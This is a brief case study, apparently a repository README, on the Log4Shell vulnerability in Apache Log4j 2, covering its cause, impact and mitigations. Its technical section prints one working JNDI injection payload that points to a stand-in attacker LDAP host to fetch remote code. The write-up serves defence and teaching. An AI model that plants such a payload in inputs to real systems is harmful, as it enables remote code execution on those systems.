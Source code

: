 
# Log4Shell (CVE-2021-44228) Case Study

## Overview
Log4Shell is a critical vulnerability discovered in the popular Java-based logging utility, Apache Log4j 2. This flaw allows remote code execution (RCE) due to improper input validation, making it one of the most severe security incidents in recent history.

- **CVE ID:** CVE-2021-44228  
- **Published Date:** December 9, 2021  
- **Severity:** Critical (CVSS Score: 10.0)  
- **Affected Versions:** Log4j 2.x (2.0–2.14.1)  

## Technical Breakdown
The vulnerability stems from the Log4j library’s handling of JNDI (Java Naming and Directory Interface) lookups. When an attacker sends a specially crafted request, Log4j resolves the malicious payload, allowing arbitrary code execution.

### Exploit Example:
```
${jndi:ldap://attacker.com/a}
```
This string exploits Log4j’s JNDI lookup feature to fetch malicious code from an attacker-controlled LDAP server.

## Impact
- **Remote Code Execution (RCE):** Full control over affected systems.
- **Widespread Exposure:** Affected countless applications and cloud services, including Apple, Twitter, and Minecraft.

## Solutions & Recommendations
1. **Upgrade Log4j:** Immediately upgrade to version 2.17.0 or later where the vulnerability is patched.
2. **Disable JNDI Lookups:** For systems where upgrading isn’t feasible:
   ```
   log4j2.formatMsgNoLookups=true
   ```
3. **Apply Network Restrictions:** Block outbound LDAP, RMI, and DNS traffic from untrusted sources.
4. **Security Monitoring:** Deploy Intrusion Detection Systems (IDS) to detect exploitation attempts.
5. **Code Review:** Audit custom applications for embedded vulnerable Log4j versions.

## References
- [Apache Log4j Security Vulnerabilities](https://logging.apache.org/log4j/2.x/security.html)  
- [NVD - CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
